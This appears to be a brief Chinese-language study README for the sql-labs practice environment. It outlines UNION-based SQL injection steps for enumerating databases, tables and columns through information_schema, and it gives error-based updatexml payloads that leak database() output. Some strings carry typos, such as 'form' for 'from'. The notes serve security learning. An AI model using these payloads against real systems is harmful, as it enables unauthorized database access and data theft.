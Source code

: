 # sql-labs
----------------
## 获取到数据的步骤
1. 确认注入点
2. 联合查询获取数据库名 union select group_concat(schema_name) form information_schema.schemata
3. 获取数据表名 union select group_concat(table_name) form information_schema.tables where table_schema=databases()
4. 获取数据表字段名 union select group_concat(column_name) form information_shema.columns where table_name=''
##
substr及报错注入  
1.updatexml(XML_document(string),xpath,new_value(替换查找到的值))  
样例 
	updatexml(1,concat(0x7e,(select database()),0x7e),1)  
由于此函数限制输出为32位故需要使用substr函数对输出进行截断  
样例
	updatexml(1,concat(0x7e,substr((select database() limit 1,1),1),0x7e),1)

## les1

